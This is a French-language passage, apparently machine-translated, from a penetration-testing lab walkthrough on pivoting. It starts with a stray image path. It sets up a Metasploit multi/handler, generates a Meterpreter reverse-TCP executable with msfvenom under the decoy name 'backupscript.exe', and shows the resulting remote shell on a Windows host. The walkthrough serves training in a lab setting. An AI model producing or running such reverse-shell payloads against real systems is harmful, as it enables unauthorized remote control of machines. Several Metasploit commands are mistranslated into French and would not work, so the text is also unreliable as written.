 ```
meterpreter > bg

[*] Séance d'information 1...
msf6 exploit(multi/handler) > définir la charge utile windows/x64/meterpreter/reverse_tcp
charge utile => windows/x64/meterpreter/reverse_tcp
exploit msf6 (multi/gestionnaire)> définir LPORT 8081
LPORT => 8081
exploit msf6 (multi/gestionnaire)> définir LHOST 0.0.0.0
LHÔTE => 0.0.0.0
exploit msf6 (multi/gestionnaire)> exécuter

[*] Démarrage du gestionnaire TCP inversé sur 0.0.0.0:8081

```

Nous pouvons maintenant créer une charge utile reverse shell qui renverra une connexion à notre serveur Ubuntu sur `172.16.5.129`:`1234` lorsqu'il sera exécuté sur notre hôte Windows. Une fois que notre serveur Ubuntu reçoit cette connexion, il la transmet à `l'adresse IP de l'hôte d'attaque` : `8081` que nous avons configurée.

#### Génération de la charge utile Windows

Génération de la charge utile Windows

```
dsgsec@htb[/htb]$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=1234

[-] Aucune plate-forme n'a été sélectionnée, en choisissant Msf::Module::Platform::Windows à partir de la charge utile
[-] Aucune arche sélectionnée, sélection de l'arche : x64 à partir de la charge utile
Aucun encodeur spécifié, sortie de données utiles brutes
Taille de la charge utile : 510 octets
Taille finale du fichier exe : 7168 octets
Enregistré sous : backupscript.exe

```

Enfin, si nous exécutons notre charge utile sur l'hôte Windows, nous devrions pouvoir recevoir un shell de Windows pivoté via le serveur Ubuntu.

#### Établir la session Meterpreter

Établir la session Meterpreter

```
[*] Démarrage du gestionnaire TCP inversé sur 0.0.0.0:8081
[*] Envoi de l'étape (200262 octets) au 10.10.14.18
[*] Meterpreter session 2 ouverte (10.10.14.18:8081 -> 10.10.14.18:40173 ) au 2022-03-04 15:26:14 -0500

compteur> shell
Processus 2336 créé.
Canal 1 créé.
Microsoft Windows [Version 10.0.17763.1637]
(c) 2018 Microsoft Corporation. Tous les droits sont réservés.

C:\>

```

* * * * *
